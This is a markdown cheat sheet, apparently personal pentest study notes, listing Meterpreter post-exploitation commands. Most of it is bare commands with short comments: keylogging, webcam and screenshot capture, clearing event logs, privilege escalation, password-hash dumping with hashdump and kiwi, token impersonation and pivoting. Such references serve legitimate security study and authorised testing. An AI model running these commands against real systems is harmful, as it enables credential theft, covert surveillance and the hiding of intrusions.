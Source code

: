 ```yaml
---
title: Meterpreter
tags:
  - security
  - tool
  - metasploit
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

#### Basic System Information

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

#### Upload & Download File

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

#### Capture Image

````bash
webcam_list
webcam_snap
screenshot
````

#### Keylogger

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

#### Operations on Target

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

#### Run Payload

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

#### Session Management

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````
